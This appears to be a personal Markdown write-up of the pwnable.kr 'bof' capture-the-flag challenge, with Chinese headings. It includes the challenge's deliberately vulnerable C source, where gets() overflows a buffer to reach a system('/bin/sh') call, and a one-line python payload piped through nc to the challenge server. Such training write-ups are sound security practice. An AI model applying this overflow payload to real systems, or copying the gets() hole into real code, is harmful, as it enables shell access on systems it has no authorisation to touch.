```yaml
---
layout: default
title: pwnable_bof
parent: Pentrue-test
nav_order: 1
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzy 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
```
 
### 執行結果
id_generator()
>'G5G74W'

id_generator(3, "6793YUIO")
>'Y3U'

### 程式原始碼

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




